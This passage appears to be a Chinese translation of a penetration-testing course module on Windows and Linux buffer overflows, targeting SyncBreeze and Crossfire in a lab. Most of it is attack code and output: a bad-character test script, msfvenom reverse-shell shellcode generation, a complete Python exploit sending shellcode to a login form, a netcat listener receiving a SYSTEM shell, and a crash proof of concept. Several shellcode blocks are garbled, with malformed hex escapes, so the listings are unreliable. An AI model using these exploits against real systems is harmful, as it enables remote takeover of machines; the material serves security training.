"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\
```


```
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\

"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\

"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\

"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\

"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\

"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\

"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

try:

    print "\nSending evil buffer..."

    filler = "A" * 780

    eip = "B" * 4

    offset = "C" * 4

    inputBuffer = filler + eip + offset + badchars

    content = "username=" + inputBuffer + "&password=A"

...

```

*列表 354 - 包含所有十六进制字符的脚本*

在执行我们的概念验证之后，我们可以右键单击 ESP 并选择 *Follow in Dump* 以在内存中显示输入缓冲区的十六进制字符（列表 355）：

|    |    |    |    |    |    |    |    |    |    |    |    |    |    |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 0326744C | 41 | 41 | 41 | 41 | 41 | 41 | 41 | 41 | 41 | 41 | 41 | AAAA AAA |
| 03267454 | 42 | 42 | 42 | 42 | 43 | 43 | 43 | 43 |  |  |  | BBBB CCCC |
| 0326745C | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 |  |  |  |  |  |
| 03267464 | 09 | 00 | C3 | 00 | 90 | BC | C3 | 00 | . . . . . . . . . . . . . . |  |  |  |  |  |

*列表 355 - 堆栈上被截断的缓冲区*

上述输出表明，只有 0x01 到 0x09 的十六进制值进入了堆栈内存缓冲区。没有迹象表明下一个字符 0x0A 存在于地址 0x03267465 处。

考虑到 0x0A 字符代表换行符，它会像回车符一样终止 HTTP 字段，这并不令人惊讶。

当我们从测试脚本中移除 0x0A 字符并重新发送负载时，生成的缓冲区在十六进制值 0x0C 之后终止（列表 356），表明 0x0D（回车字符）也是一个不良字符，正如我们之前讨论的那样：

```
01B1744C  41 41 41 41 41 41 41 41  AAAAAAAAA

01B17454  42 42 42 42 43 43 43 43  BBBBBBBB

01B1745C  01 02 03 04 05 06 07 08

01B17464  09 0B 0C 0D 0E 38 BD CE 00  ...\xif.

01B1746C  10 6C CF 00 06 00 00 00  li....

01B17474  18 AB B1 01 00 00 00 00  <+....
```

*列表 356 - 被回车字符截断的缓冲区*

以此类推，我们发现 0x00、0x0A、0x0D、0x25、0x26、0x2B 和 0x3D 在尝试溢出目标缓冲区时会破坏我们的输入缓冲区。

## 11.2.5.1 练习

- 1. 按照所需步骤重复操作，以识别不能包含在负载中的不良字符。
- 2. 为什么这些字符不被允许？这些不良十六进制字符如何转换为 ASCII？

## 11.2.6 重定向执行流程

至此，我们已经控制了 `EIP` 寄存器，并且知道我们可以将 shellcode 放在通过 `ESP` 寄存器轻松访问的内存空间中。我们也知道哪些字符对于我们的缓冲区是安全的，哪些不是。我们的下一个任务是找到一种方法，将执行流程重定向到崩溃时 `ESP` 寄存器所指向的内存地址上的 shellcode。

最直观的方法是尝试用崩溃时出现在 `ESP` 寄存器中的地址来替换覆盖 `EIP` 的 `B`。然而，正如我们之前提到的，`ESP` 的值在每次崩溃时都会发生变化。堆栈地址经常变化，特别是在 SyncBreeze 这样的多线程应用程序中，因为每个线程在操作系统分配的内存中都有其预留的堆栈区域。

因此，硬编码特定的堆栈地址不是到达我们缓冲区的可靠方式。

## 11.2.7 寻找返回地址

我们仍然可以将 shellcode 存储在 `ESP` 指向的地址，但我们需要一种一致的方式来执行该代码。一种解决方案是利用 `JMP ESP` 指令，顾名思义，当执行时它会“跳转”到 `ESP` 指向的地址。如果我们能找到一个可靠的、静态的地址包含此指令，我们可以将 `EIP` 重定向到此地址，在崩溃时，`JMP ESP` 指令将被执行。这种“间接跳转”将引导执行流程进入我们的 shellcode。

Windows 中的许多支持库都包含这个常用指令，但我们需要找到一个满足特定条件的引用。首先，库中使用的地址必须是静态的，这排除了支持 ASLR 的库。其次，指令的地址不能包含任何会破坏利用程序的不良字符，因为该地址将成为我们输入缓冲区的一部分。

我们可以使用由 Corelran 团队开发的 Immunity Debugger 脚本 `mona.py`，^318 来开始寻找返回地址。首先，我们将使用 `!mona modules` 请求 SyncBreeze 加载到进程内存空间中的所有 DLL（或模块）的信息，产生如图 217 所示的输出：


此输出的列包括当前内存位置（基地址和顶地址）、模块大小、多个标志、模块版本、模块名称以及路径。

从此输出的标志中，我们可以看到 **`syncbrs.exe`** 可执行文件禁用了 SafeSEH，^319（结构化异常处理程序覆盖，一种漏洞防护内存保护技术）、ASLR 和 NXCompat（DEP 保护）。

换句话说，该可执行文件没有使用任何内存保护方案进行编译，并且将始终可靠地加载到相同地址，使其非常适合我们的目的。

然而，它始终加载到基地址 `0x00400000`，这意味着所有指令的地址（`0x004XXXXXX`）都将包含空字符，这不适合我们的缓冲区。

> ^318 (Corelan, 2019), https://github.com/corelan/mona
> ^319 (Microsoft, 2016), https://docs.microsoft.com/en-us/cpp/build/reference/safeseh-image-has-safe-exception-handlers?view=vs-2019

通过搜索输出结果，我们发现 **`LIBSSP.DLL`** 也符合我们的需求，且地址范围似乎不包含不良字符。这非常适合我们的需求。现在，我们需要在该模块内查找一条自然存在的 `JMP ESP` 指令的地址。

> *高级提示：如果该应用程序启用了 DEP（数据执行保护）支持，我们的 `JMP ESP` 地址必须位于模块的文本代码段（text code segment）中，因为该段是唯一同时具有读取（R）和执行（E）权限的段。然而，由于 DEP 未启用，我们可以自由使用该模块中任何地址的指令。*

我们可以使用 Immunity Debugger 中的原生命令来搜索我们的 `JMP ESP` 指令，但搜索必须在 DLL 内的多个数据区域中进行。相反，我们可以使用 `mona.py` 对汇编指令的二进制或十六进制表示（即操作码）进行穷举搜索。

为了查找 `JMP ESP` 对应的操作码，我们可以使用 Metasploit 的 NASM Shell ruby 脚本 **`msf-nasm_shell`**，其生成的结果如清单 357 所示：

```
kali@kali:~$ msf-nasm_shell

nasm > jmp\ esp

00000000 FFE4             jmp\ esp

nasm >
```


### 清单 357 - 查找 JMP ESP 的操作码

我们可以使用 `mona.py find` 在 `LIBSSP.DLL` 的所有段中搜索操作码（`0xFFE4`）的十六进制表示，以查找 `JMP ESP`。

我们将使用 `-s` 指定搜索内容，并使用操作码十六进制字符串的转义值 `"\xff\xe4"`。

此外，我们通过 `-m` 选项指定所需模块的名称。

最终命令 `!mona find -s “\xff\xe4” -m “libssp.dll”` 的输出如图 218 所示：


*图 218：使用 mona.py 搜索操作码*

在此示例中，输出显示包含 `JMP ESP` 指令的一个地址（`0x10090c83`），幸运的是，该地址不包含我们的任何不良字符。

为了在反汇编窗口中查看 `0x10090c83` 的内容（此时执行已暂停），我们将点击“在反汇编器中跳转到地址”按钮（图 219）并输入地址。从这里我们可以看到它确实被转换为一条 `JMP ESP` 指令。


如果在崩溃时将 `EIP` 重定向到此地址，`JMP ESP` 指令将被执行，这将使执行流程进入我们的 shellcode。

我们可以通过在概念验证（Proof of Concept, PoC）中更新 `eip` 变量以反映此地址来测试这一点：

```python
...
filler = "A" * 780

eip = "\xb8\x0c\x09\x10"

offset = "C" * 4

buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
...
```

*清单 358 - 重定向 EIP*

注意，上面输入的地址是逆序的。这是因为字节序 [320] 的原因。操作系统可以以不同的格式在内存中存储地址和数据。一般来说，用于在内存中存储地址的格式取决于操作系统运行的架构。小端序（Little endian）是目前最广泛使用的格式，并被 x86 和 AMD64 架构使用，而大端序（Big endian）历史上被 Sparc 和 PowerPC 架构使用。在小端序格式中，数字的低字节存储在内存中的最低地址，高字节存储最高地址。因此，我们必须以逆序形式在缓冲区中存储返回地址，以便 CPU 能正确地在内存中解释它。

我们在调试器中按 F2，将在地址 `0x10090c83` 处设置断点，以便跟踪 `JMP ESP` 指令的执行，然后我们再次运行我们的利用程序。结果如图 220 所示：

[320] (维基百科, 2019), http://en.wikipedia.org/wiki/Endianness


*图 220：LIBSSP.DLL 中 JMP ESP 处的断点*

我们的调试器显示，我们确实到达了我们的 `JMP ESP` 并触发了之前设置的断点。在调试器中按 F7 将单步执行进入我们的 shellcode 占位符，目前它只是一堆 D。

很好！现在我们需要生成可用的 shellcode，我们的利用程序就完成了。

### 11.2.7.1 练习

- 1. 定位在利用程序中可用的 `JMP ESP`。
- 2. 更新你的 PoC 以包含发现的 `JMP ESP`，在其上设置断点，并跟踪执行到占位符 shellcode。

#### 11.2.8 使用 Metasploit 生成 Shellcode

编写我们自己的自定义 shellcode 超出了本模块的范围。然而，Metasploit Framework 为我们提供了工具和实用程序，使生成复杂的载荷变得轻而易举。

`MSFvenom` [321] 是 `Msfpayload` [322] 和 `Msfencode` [323] 的结合，将这两个工具整合到一个单一的 Framework 实例中。它可以生成 shellcode 载荷并使用多种不同的编码器对其进行编码。

> *MSFvenom 自 2015 年 6 月 8 日起取代了 msfpayload 和 msfencode。*

目前，`msfvenom` 命令可以自动生成超过 500 个 shellcode 载荷选项，如下面的摘录所示：

```
kali@kali:~$ msfvenom -l payloads

Framework Payloads (546 total) [--payload <value>]

============================================================
```

| 名称 | 描述 |
| :----- | :----- |
| aix/ppc/shell_bind_tcp | 监听连接并启动命令 shell |
| aix/ppc/shell_find_port | 在已建立的连接上启动 shell |
| aix/ppc/shell_interact | 直接执行 /bin/sh（用于 inetd 程序） |
| aix/ppc/shell_reverse_tcp | 连接回攻击者并启动命令 shell |
| ... | ... |
| windows/shell_reverse_tcp | 连接回攻击者并启动命令 shell |

*清单 359 - 列出所有 Metasploit shellcode 载荷的命令*

`msfvenom` 命令相当容易使用。我们将使用 `-p` 生成一个名为 `windows/shell_reverse_tcp` 的基本载荷，它的作用类似于 Netcat 反向 shell。此载荷最少需要一个 `LHOST` 参数，用于定义 shell 的目标 IP 地址。还可以定义一个可选的 `LPORT` 参数，指定连接回来的端口，我们将使用格式标志 `-f` 来选择 C 语言格式的 shellcode。

生成我们的 shellcode 的完整 `msfvenom` 命令如下：

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c

No platform: Format was selected, choosing Msf::Module::Platform=::Windows from the payload

No Arch selected, selecting Arch: x86 from the payload

No encoder or badchars specified, outputting raw payload

unsigned char buff[] =

"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"

"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"

"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x78\xc7\xfe2\xf2\x52"

"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xec3\x48\x01\xd1"

"\x51\x8b\x59\x20\x01\xd3\x8b\x49\xc9\x3a\x3a\x49\x8b\x34\x8b"

"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xcf\x38\xe0\x75\xf6\x03"

"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\xb8\x58\x24\x01\xd3\xe6\x8b"

"\x0c\x4b\x58\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x42\x24"

"\x24\x5b\x58\x61\x56\x58\x53\xff\xf5\xc\x5f\x5a\x8b\x12\xeb"

"\x8b\xd5\x6b\x38\x33\x32\x00\x00\x68\x77\x73\x32\xf5\x54\x68\x4c"

"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\xc4\x54\x50\x68"

"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x48\x50\x68"

"\x8a\xf8\xd4\xff\x40\x90\xd5\x09\x04\x12\x8e\xf4\x08\x59"

"\xc0\xf0\x03\x89\xd6\xe6\xd1\x89\x48\x55\x9c\xc8\xd9\x04\x12"

"\x20\x59\xc8\xe9\x79\x01\x8f\x9f\xdf\x48\x88\x02\xc2\x04\xff"
```


```
"\x44\x86\xe6\x5c\xc8\xd2\x7f\xe8\xf8\xc6\x46\x2a\x46\x6b\x06"

"\x2d\x79\x02\xa8\xbb\x89\x66\x0d\xa4\xc5\xc8\x43\xff\x74\x24"

"\x77\x99\x82\x23\x8c\xf1\xa4\x45\xdd\x6b\xf0\x5b\xc8\x39\x1f"

"\x63\x80\x44\x14\xf1\xa0\xf7\x27\xc1\x57\xc3\x8e\xb5\xc2\x68"

"\x90\xf9\x3b\x8d\xf0\x78\xe8\x9b\x04\x02\x9b\x4a\x29\x5c\xff"

"\xb8\xe5\x83\xa6\xa2\x65\x4d\xc4\xe0\x00\x8b\x84\xa9\x96\x3e"

"\x75\xf7\x9d\x0c\x5f\x46\x3a\xd8\x50\x21\x9d\x72\x87\xc3\x5b"

"\xa1\x24\xe6\xa5\x49\x4a\xbb\x73\xdd\x3b\x59\xa5\x54\x58\x9b\x22"

"\x2f\x20\x28\xe6\x8d\x25\xff\x2b\x1c\x10\x39\xc0\x83\x80\x55\x4d"

"\x25\x60\x4e\x42\xa5\x4d\x84\xa2\xbb\x25\x24\xa8\x5a\x3f\x9f\x06"

"\x8f\xdf\x5b\x59\x44\xa5\x64\x6f\xc7\x2a\x02\xc9\xff\x46\x5b"

"\x56\x6c\x79\xf3\x28\xbb\x2e\x9a\x8b\x35\xc1\x22\x25\x4c\xe5"
```

# 清单 360 - 生成 metasploit shellcode

这看起来很简单，但如果仔细查看，我们可以在生成的 shellcode 中识别出不良字符（例如空字节）。

当我们无法使用通用的 shellcode 时，我们必须对其进行编码以适配我们的目标利用环境。这可能意味着将我们的 shellcode 转换为纯字母数字载荷，去除不良字符等。

[321] (Wei Chen, 2014), https://blog.rapid7.com/2014/12/09/good-bye-msfpayload-and-msfencode/
[322] (Offensive Security, 2015), https://www.offensive-security.com/metasploit-unleashed/msfpayload/
[323] (Offensive Security, 2015), https://www.offensive-security.com/metasploit-unleashed/msfencode/

我们将使用一种高级多态编码器 `shikata_ga_nai`[324] 来编码我们的 shellcode，并使用 `-b` 选项告知编码器已知的非法字符：

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x0d\x0d\x0d\x25\x26\x2b\x4d'

No platform was selected, choosing Msf::Module::Platform: :Windows from the payload

No Arch selected, selecting Arch: x86 from the payload

Found 22 compatible encoders

Attempting to encode payload with 1 iterations of x86/shikata_ga_nai

x86/shikata_ga_nai succeeded with size 351 (iteration=0)

unsigned char buff[] =

{

\x8e\x55\xe5\x86\x02\x4a\x5c\x99\x74\x24\x4f\x5a\x29\x99\xb1

\x52\x31\x72\x03\x72\x12\x83\x97\xe1\x54\x7f\xeb\x02\x1a

\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59

\xe7\x20\xc1\xea\x85\xec\x6b\x5b\x23\xcb\x99\x5c\x18\x2f\x48

\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\xf8\xf9\x7f\x9d\x2f

\xed\xf7\x8e\x8e\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\x6

\x74\xcd\x79\xd3\x3c\x5d\xe9\x8e\xf7\x6e\x54\x94\x09\x6\xa

\x55\xa5\x87\x08\xaa\xb7\x9a\xf7\xc2\x38\xc9\xea\x51\xf

\xa1\x30\x53\xb\x08\xb2\xc3\xc7\xa8\x17\x95\xb8\xa7\xd\xd

\xca\xab\xa3\x36\x61\xdf\x88\xb9\x51\x39\xe8\x39\xe8

\xbf\x30\xef\x5f\xbf\x22\x8\x3f\x65\x29\x65\x54\x14\x70\x

\x99\x15\x8a\xf2\xb5\x2e\xf9\xc0\x1a\x85\x9c\x68\xd2\x03\x6

\x8e\xc9\xf4\x4a\x71\xf2\x04\x51\x5\xa6\x54\xd4\x1f\xc7\x3

\x8d\xa0\x12\x90\xdd\x0e\xcd\x51\x8d\xee\xbd\x39\x79\xe2

\x5a\xe\x2a\x88\xf1\x13\xbd\xb\x0e\xb\x2f\xd7\x12\x1\x4

\x9c\x9a\xfd\x3a\xf2\xca\x56\xd3\x6b\x57\xc2\x42\x73\x49

\x44\xff\x62\xae\x0b\x08\x0e\xbc\xfc\xf8\x45\x9e\xab\x07\x7

\xb6\x30\x95\xf1\x3e\x86\xb7\x11\x7\x8\xce\xf7\x85\x2

\x78\xe5\x57\x5\x43\xad\x83\x06\x4d\x2c\x41\x32\x69\x3c\x9

\xb\x35\x6a\x4f\xea\xe3\xc4\x29\xaa\xe8\xb6\xe3\xb3\x0c\x

\x75\x70\x8f\x20\x7a\x5d\x79\xcc\xcb\x08\x3c\xf3\xe4\xdc\xc

\x8c\x18\x36\x47\x99\x8d\x7d\x88\x05\xd8\x9c\x8\xb

\xd\x4b\x4c\xe5\x75\x58\x79\x8f\x81\x40\x8\xaa\xce\xc\xe1\

\x5f\xa3\x05\x74\x5f\xe6

}
```


生成的 shellcode 不包含任何非法字符，长度为 351 字节，并将在端口 443 上向我们的 IP 地址（本例中为 10.11.0.4）发送一个反向 shell。

### 11.2.9 获取 Shell

从 SyncBreeze 获取反向 shell 现在应该很简单，只需将我们的 D 缓冲区替换为 shellcode 并启动利用程序即可。

然而，在这种情况下，我们还有另一个障碍需要克服。在前一步骤中，我们使用 `msfvenom` 生成了编码后的 shellcode。由于编码的存在，该 shellcode 无法直接执行，因此前面会附带一个解码桩（decoder stub）。这个桩的作用是遍历编码后的 shellcode 字节并将其解码回原始的可执行形式。为了完成这项任务，解码器需要获取其在内存中的地址，并从此处向前查找几个字节以定位需要解码的编码后 shellcode。作为获取解码桩内存位置过程的一部分，代码会执行一系列汇编指令，这通常被称为 `GetPC` 例程。这基本上是一个短例程，它将 `EIP` 寄存器的值（有时也称为程序计数器或 PC）移动到另一个寄存器中。

与其他 `GetPC` 例程一样，`shikata_ga_nai` 使用的例程也有一个不幸的副作用，即在栈顶部及其附近写入一些数据。这最终会损坏 `ESP` 寄存器指向的地址附近至少几个字节。不幸的是，这个栈上的微小变化对我们来说是个问题，因为解码器正好从 `ESP` 寄存器指向的地址开始。简而言之，`GetPC` 例程的执行最终会改变解码器本身的几个字节（以及潜在的编码后 shellcode），这最终会导致解码过程失败并使目标进程崩溃。


避免此问题的一种方法是调整 `ESP` 使其向后移动，在执行解码器之前使用诸如 `DEC ESP, SUB ESP, 0xXX` 这样的汇编指令。或者，我们可以为我们的 `JMP ESP` 创建一个宽大的“着陆区（landing pad）”，这样当执行落在这个区域的任何位置时，它都会继续执行到我们的有效载荷。这听起来可能很复杂，但我们只需在有效载荷前添加一系列无操作（或 `NOP`）指令，这些指令的操作码值为 `0x90`。顾名思义，这些指令什么也不做，只是将执行权传递给下一条指令。以这种方式使用时，这些指令（也被定义为 `NOP sled` 或 `NOP slide`）将使 CPU “滑动” 通过 `NOP` 直到到达有效载荷。

在这两种情况下，当执行到达 shellcode 解码器时，栈指针已经离它足够远，从而在 `GetPC` 例程覆盖栈上几个字节时不会损坏 shellcode。

添加 `NOP sled` 后，我们最终的利用程序类似于下面的 `Listing 362`：

```python

#!/usr/bin/python

import socket

try:

    print "Sending evil buffer..."

    shellcode = ("""\xe6\x55\xe5\x86\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"

                ""\x52\x31\x2\x03\x72\x12\x83\x97\xe1\x54\xf7\xe6\x02\x1a"

                ""\xf8\x13\xd3\x7b\x70\xe2\xbb\xe6\x73\x91\x0c\x6c\xd1\x59"

                ""\xe7\x20\xc1\xea\x85\xe8\xe6\xe5\x23\xc1\xe6\x51\xc5\x61"

                ""\xf1\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\xf8\xf9\xf0\x9d\x2f"

                ""\xe9\x75\xeb\xf3\x8e\xc6\xfd\x73\x7b\x7b\xfc\x35\x99\xfb"

                ""\x74\xcd\x79\xd3\x3c\xd5\x9e\xde\xf7\x6e\x54\x94\x09\xa6\xad"

                ""\x55\xa5\x87\x08\xa4\xb7\xc0\xfa\x57\xc5\xe1\xc6\x9a\xe6"

                ""\xae\x30\x53\xb\x08\xb2\xc3\xc7\xa8\x71\x98\xc8\x7\xdc\xd1"

                ""\xca\xab\xe3\x36\x61\xd7\x68\xb9\x51\x0e\x59\x54\x73\xde"

                ""\xfb\x30\xe7\x5f\xfb\x22\x8\x3f\x65\x29\x95\x54\x14\x07\xe0"

                ""\x99\x15\x8a\xf2\xb5\x2e\xf9\xc0\x1a\x85\x95\x68\xd2\x03\x62"

                ""\x8\xc9\xf4\xfc\x7\xf2\x04\xd5\xb1\xa1\x00\xf\xd1\x07\xe3"

                ""\x8d\x12\x0\xdd\x51\x8d\xeb\x54\x96\x9\xe\xe0\xe2"

                ""\x5a\xe8\x2a\x8b\xf\x13\xdb\xbe\x0e\xfb\x2f\xd7\x12\xb\xe4"

                ""\x9c\x9a\xfd\x3a\xf2\xca\x56\xd3\xb6\xb5\x7c\x42\x73\xa4\x9"

                ""\x44\xff\x62\xae\x0b\x08\x06\xc2\xf7\x57\xa\x9e\xab\x70"

                ""\xb6\x30\x95\xf1\x46\xe\x8e\xb7\x11\xb7\xc\xe\xf\x85\x23"

                ""\x78\xe5\x57\xb5\x43\xad\x83\x06\xad\x42\x8\x96\xe3\xa6\xc4"

                ""\xbb\x35\x6a\x4f\xea\xe3\xc4\x29\x42\xb6\xc3\xb6\xe\xc"

                ""\x75\x70\x8f\x20\x7\x5d\x79\xcc\xc\xb8\xc\x3\xf4\x84\xd6\xc"

                ""\x8c\x18\x7d\x36\x47\x99\x8d\x74\x5\xc5\xb8\x9c\x88\x8d"

                ""\xb\x8\xb6\x75\xb\x9\x81\x40\x08\xaa\xc\xe6\xe1\xc"

                ""\x5f\xa3\x74\x5f\xe6""")

    filler = "A" * 780

    eip = "\x83\x0c\x09\x10"

    offset = "C" * 4

    nops = "\x90" * 10

    inputBuffer = filler + eip + offset + nops + shellcode

    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"

    buffer += "Host: 10.11.0.22\r\n"

    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_x86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"

    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"

    buffer += "Accept-Language: en-US,en;q=0.5\r\n"

    buffer += "Referer: http://10.11.0.22/login\r\n"

    buffer += "Connection: close\r\n"

    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"

    buffer += "Content-Length: " +str(len(content))+"\r\n"

    buffer += "\r\n"

    buffer += content
```


```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.11.0.22", 80))

s.send(buffer)

s.close()

print "\nDone did you get a reverse shell?"

except:

    print "\nCould not connect!"
```

Listing 362 - 最终利用代码

为了配合反向 shell 有效载荷，我们在攻击机的 443 端口上配置了 Netcat 监听器并执行利用脚本。很快，我们有望从受害机器接收到一个 SYSTEM 反向 shell：

```
kali@kali:~$ sudo nc -lnvp 443

listening on [any] 443 ...

connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 57692

Microsoft Windows [Version 10.0.17134.590]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami

whoami

nt authority\system

C:\Windows\system32>
```

Listing 363 - 接收到的反向 shell

太棒了！它起作用了。我们从零开始创建了一个针对缓冲区溢出漏洞的完全可用的利用程序。然而，还有一个小不便需要克服。注意，一旦我们退出反向 shell，SyncBreeze 服务就会崩溃并退出。这远非理想状态。

### 11.2.9.1 练习

- 1. 更新你的 PoC 以包含一个可工作的有效载荷。
- 2. 尝试在不使用 NOP sled 的情况下执行你的利用程序，并观察解码器损坏栈。
- 3. 在你的 PoC 中添加 NOP sled，并从 SyncBreeze 获取 shell。

[324] (Rapid7, 2018), https://www.rapid7.com/db/modules/encoder/x86/shikata_ga_nai

# 11.2.10 改进利用程序

Metasploit shellcode 执行后的默认退出方法是 **ExitProcess** API。这种退出方法会在反向 Shell 终止时关闭整个 Web 服务进程，从而实际上导致 SyncBreeze 服务崩溃。

如果我们正在利用的程序是一个多线程应用程序（在本例中确实如此），我们可以尝试使用 **ExitThread** API 来代替，从而避免服务完全崩溃，该 API 只会终止程序的受影响线程。这将使我们的利用程序在没有中断 SyncBreeze 服务器正常运行的情况下工作，并允许我们反复利用服务器并退出 Shell 而不使服务下线。

要指示 **msfvenom** 在生成 shellcode 时使用 *ExitThread* 方法，我们可以使用下面命令中所示的 **EXITFUNC=thread** 选项：

```
kali@kali:$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

清单 364 - 生成使用 ExitThread 的 shellcode

### 11.2.10.1 练习

- 更新利用程序，使其在利用后 SyncBreeze 仍能运行。

### 11.2.10.2 额外练习

在你的 Windows 虚拟机中的 **Tools** 文件夹中，有三个名为 **VulnApp1.exe**、**VulnApp2.exe** 和 **VulnApp3.exe** 的应用程序，每个都包含一个漏洞。该文件夹中还包含相关的 Python 概念验证脚本。使用这些 PoC，为每个易受攻击的应用程序编写利用程序。

# 11.3 总结

在本模块中，我们发现并利用了 SyncBreeze 应用程序中的一个漏洞。尽管这是一个已知漏洞，但我们走了“发现它”所需的步骤，并且没有依赖之前的漏洞研究。这基本上复制了发现并利用远程缓冲区溢出的过程。

这个过程需要几个步骤。首先，我们在代码中（在无法访问源代码的情况下）发现了一个漏洞，并生成了导致溢出并让我们获得关键 CPU 寄存器控制权的应用程序输入。接下来，我们操纵内存以获得可靠的远程代码执行，并清理利用程序以避免目标应用程序崩溃。

## 12. Linux 缓冲区溢出

在本模块中，我们将通过利用 Crossfire（一款基于 Linux 的在线多人角色扮演游戏）来介绍 Linux 缓冲区溢出。

具体来说，Crossfire 1.9.0 存在基于网络的缓冲区溢出漏洞，当向 `setup_sound` 命令传递超过 4000 字节的字符串时触发。为了调试该应用程序，我们将使用由 Evan Teran 编写的 Evans 调试器（EDB），它为我们提供了一个熟悉的调试环境，该环境受 Ollydbg 的启发。

# 12.1 关于 DEP、ASLR 和 Canary 的说明

最近的 Linux 内核和编译器已经实现了各种内存保护技术，例如 *数据执行防护*（DEP）、*地址空间布局随机化*（ASLR）和 *堆栈 Canary*。

由于绕过这些保护机制超出了本模块的范围，我们用于测试的 Crossfire 版本在未包含堆栈破坏保护（堆栈 Canary）、ASLR 和 DEP 的情况下进行了编译。

### 12.2 复现崩溃

我们的测试环境将包括一个专用的 Linux Debian 实验室客户端，我们将在那里运行和调试易受攻击的应用程序，以及我们的本地 Kali Linux 机器，我们将在那里发起远程利用。

为了复现崩溃，我们将首先使用控制面板中提供的凭据通过 `rdesktop` 连接到我们的专用 Debian Linux 客户端。连接后，我们将通过系统工具菜单启动 root 终端并运行 Crossfire：

```bash
root@debian:~# cd /usr/games/crossfire/bin/

root@debian:/usr/games/crossfire/bin# ./crossfire

...
Welcome to CrossFire, v1.9.0

Copyright (C) 1994 Mark Wedel.

Copyright (C) 1992 Frank Tore Johansen.

----------registering SIGPIPE

Initializing plugins

Plugins directory is /usr/games/crossfire/lib/crossfire/plugins/

-> Loading plugin : cfanim.so

CFAnim 2.0a init

CFAnim 2.0a post init

Waiting for connections...
```

清单 365 - 通过终端启动易受攻击的应用程序

Crossfire 启动后，它将接受传入的网络连接。接下来，我们将通过运行 `edb` 命令来启动 EDB 调试器：

```
root@debian:~# edb

Starting edb version: 0.9.22

Please Report Bugs & Requests At: https://github.com/eteran-edb-debugger/issues

comparing versions: [2325] [2326]
```

清单 366 - 通过终端启动调试器

EDB 的布局与其他流行的调试工具类似，如图 222 所示：


要查看包括 PID 和所有者在内的可用进程，我们将 *File* 菜单中的 *Attach* 选中。然后我们可以使用过滤选项搜索特定进程，在我们的情况下是 *crossfire*，选择它，然后单击 *OK* 附加到它：


*图 223：EDB - 可附加进程窗口*

当我们最初附加到该进程时，它将被暂停。要运行它，我们只需单击 *Run* 按钮。根据应用程序在调试器内的工作方式，在允许应用程序运行之前可能会命中额外的断点。在这种情况下，我们只需再按一次 *Run* 按钮。


*图 224：在调试器中附加应用程序*

一旦我们将调试器附加到 Crossfire 应用程序，我们将使用以下基于公共利用信息创建的概念验证代码：

```python
#!/usr/bin/python

import socket
```


`host = "10.11.0.128"`

`crash = "\x41" * 4379`

`buffer = "\x11(setup sound " + crash + "\x98\x08"`

`s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`

`print "[*]Sending evil buffer..."`

`s.connect((host, 13327))`

`print s.recv(1024)`

`s.send(buffer)`

`s.close()`

`print "[*]Payload Sent !"`

清单 367 - 用于使 Crossfire 应用程序崩溃的概念验证代码

注意，为了让应用程序崩溃，我们的 `buffer` 变量需要在开始和结束部分包含特定的十六进制值，以及 `"setup sound"` 字符串。

